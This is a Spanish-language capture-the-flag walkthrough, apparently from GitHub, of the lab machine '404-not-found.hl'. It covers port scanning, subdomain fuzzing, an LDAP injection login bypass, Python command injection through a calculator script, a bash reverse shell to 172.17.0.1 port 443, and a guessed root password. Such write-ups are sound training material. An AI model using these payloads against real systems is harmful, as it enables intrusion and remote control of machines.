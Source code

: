 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![image](https://github.com/user-attachments/assets/6ec0aa26-5305-4c98-8661-c514c470e5e8)


y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info

![image](https://github.com/user-attachments/assets/e26da39b-a5fd-47dd-8b60-3489ca23bc2a)


metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl

![image](https://github.com/user-attachments/assets/326bd27a-8218-48a8-8afe-9fff9203851d)


nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP
> 
![image](https://github.com/user-attachments/assets/d2ed5af5-49d9-4b99-b3b5-c9694372c261)


buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![image](https://github.com/user-attachments/assets/7a5b62ab-8c46-4f74-bdb1-59d1f49849b7)

y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![image](https://github.com/user-attachments/assets/b5768cb3-21d1-44b2-a00b-df510322316e)


entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.

![image](https://github.com/user-attachments/assets/c83ef588-3f2f-4658-8b07-95b98ff1dc96)


como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![image](https://github.com/user-attachments/assets/f6823809-e7f4-49d4-94ab-c37a7f896524)


encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![image](https://github.com/user-attachments/assets/6d7098a9-2ec1-4a2d-8d01-b0f91aa1a879)


comando de ejecución:

     __import__('os').popen('ls').read()

![image](https://github.com/user-attachments/assets/aab997c9-6d97-4236-b52d-48cde834676b)


lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

colocamos el puerto en escucha y estamos dentro del usuario 200-ok

![image](https://github.com/user-attachments/assets/ad34b515-d69e-4277-a76c-0c78e57d873c)

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![image](https://github.com/user-attachments/assets/6c1e67b2-2197-4aa4-8ffa-599292173d1e)


probamos rooteable como contraseña de root:

![image](https://github.com/user-attachments/assets/22834dc8-54b2-40bd-8709-4156b9c520fe)


su root / rooteable y somos root!: 
